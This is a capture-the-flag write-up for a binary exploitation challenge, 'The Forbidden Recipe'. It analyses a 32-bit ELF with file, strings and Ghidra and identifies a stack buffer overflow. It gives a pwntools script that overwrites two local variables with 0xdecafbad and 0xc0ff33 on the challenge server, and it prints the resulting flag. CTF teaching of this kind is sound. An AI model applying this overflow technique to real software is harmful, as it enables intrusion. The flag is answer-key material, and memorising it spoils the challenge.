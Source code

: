 # !Kogarashi Café - The Forbidden Recipe  

**Category:** Binary Exploitation 

A final challenge that involves exploiting a stack-based buffer overflow to manipulate local variables and extract the flag.  

---

### Challenge  

**Provided File:** `forbidden_recipe`  

---

## Overview  

1. **Analyzing the Binary**  
   - Use `file forbidden_recipe` to determine the binary type:
     
     ```sh
     forbidden_recipe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=c1033e4a4b053363f711f388f116277a1cbde252, not stripped
     ```
   - Run `strings forbidden_recipe` to find readable text inside:
     ```sh
     Barista: 'Ah... I see you've returned for the special blend.'
     Barista: 'The secret recipe... lost?
     ```
   - Disassemble the binary using `objdump`:
     ```sh
     objdump -d forbidden_recipe > disassembly.txt
     ```
   - Load the binary in **Ghidra** or **Binary Ninja** to reverse-engineer its logic.  

2. **Identifying the Vulnerability**  
   - The binary has a **stack-based buffer overflow** vulnerability.
   - By overflowing the buffer, we can overwrite **local variables** (`local_14` and `local_10`) with specific values.
   - This allows us to manipulate program execution and extract the flag.  

---

## Steps to Exploit  

1. **Check Binary Properties**  
   ```sh
   file forbidden_recipe  
   checksec --file=forbidden_recipe  
   strings forbidden_recipe  
   ```

2. **Reverse Engineer the Binary**  
   - Load in **Ghidra** or **Binary Ninja** to analyze the functions.
   - Identify the buffer size and which values need to be overwritten.

3. **Exploit Buffer Overflow**  
   - Send a payload that fills the buffer (32 bytes) and precisely overwrites two critical local variables.
   - Set `local_14` to `0xdecafbad` and `local_10` to `0xc0ff33` to trigger the correct execution path.  

---

## Exploit Script  

```python
from pwn import *

# Connection details
HOST = "chals1.apoorvctf.xyz"
PORT = 3002

# Establish remote connection
conn = remote(HOST, PORT)

# Wait for the prompt (adjust as needed)
conn.recvuntil(b"what will it be this time?'\n")

# Construct the payload:
# 32 bytes to fill the buffer, then:
# p32(0xdecafbad) -> overwrites local_14
# p32(0xc0ff33)  -> overwrites local_10
payload = b"A" * 32
payload += p32(0xdecafbad)  # Overwrite local_14
payload += p32(0xc0ff33)    # Overwrite local_10

# Send the payload
conn.sendline(payload)

# Receive and print the response (the flag should be in the output)
response = conn.recvall().decode()
print(response)

conn.close()
```

---

## Extracted Flag  

```
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
```

